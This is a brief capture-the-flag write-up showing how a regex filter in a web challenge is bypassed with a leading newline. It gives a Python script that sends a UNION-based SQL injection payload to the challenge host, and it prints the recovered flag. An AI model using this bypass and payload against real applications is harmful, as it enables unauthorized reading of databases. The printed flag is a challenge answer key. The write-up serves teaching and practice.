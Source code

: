 Challenge author: t0m7r00z

We need to bypass this in order to execute an SQL Injection

```if re.search(".'", students_name) or students_name[0] == "'"```

Hint: [regexp security cheatsheet](https://github.com/attackercan/regexp-security-cheatsheet)

We can bypass ```re.search(".'", students_name)``` with a new line **\n**

```python
import re
import requests

r = requests.post("https://infreezy.pythonanywhere.com/vaccine_revenge", data={"students_name":"\n'union select 1,2,flag from s3cret_fl4g--"})
re.search("inf{.*}", r.text)

```
*inf{I_h0p3_v4cC1n3_F@R_c0V1D19_15_R3aL}*
